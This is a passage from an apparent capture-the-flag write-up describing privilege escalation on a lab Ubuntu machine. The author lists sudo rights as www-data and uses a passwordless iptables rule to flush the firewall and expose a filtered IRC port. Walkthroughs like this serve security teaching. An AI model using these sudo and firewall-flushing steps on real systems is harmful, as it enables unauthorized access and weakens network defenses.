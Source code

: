
  

####

#### Privilege escalation to waldo

One thing you should always do is running **sudo -l **when possible, this
proved to be very useful.  
  

    
    
    www-data@ubuntu:/tmp$ sudo -l  
    sudo -l  
    Matching Defaults entries for www-data on ubuntu:  
        env_reset, mail_badpass,  
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
      
    User www-data may run the following commands on ubuntu:  
        (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf  
        (ALL) NOPASSWD: /sbin/iptables  
    

  
Two different rules, does that mean two different ways to get higher
privileges? Possibly.  
  
You might've noticed that port 6667 was marked as filtered in your nmap scan,
guess you were right! Check the current iptables rules.  
  

    
    
    www-data@ubuntu:/tmp$ sudo /sbin/iptables -L  
    sudo /sbin/iptables -L  
    Chain INPUT (policy ACCEPT)  
    target     prot opt source               destination           
    ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd  
    DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd  
      
    Chain FORWARD (policy ACCEPT)  
    target     prot opt source               destination           
      
    Chain OUTPUT (policy ACCEPT)  
    target     prot opt source               destination    
    

  
Let's flush them so IRC is unblocked.  
  

    
    
    www-data@ubuntu:/tmp$ sudo /sbin/iptables --flush  
    sudo /sbin/iptables --flush  
    www-data@ubuntu:/tmp$ sudo /sbin/iptables -L  
    sudo /sbin/iptables -L  
    Chain INPUT (policy ACCEPT)  
    target     prot opt source               destination           
      
    Chain FORWARD (policy ACCEPT)  
    target     prot opt source               destination           
      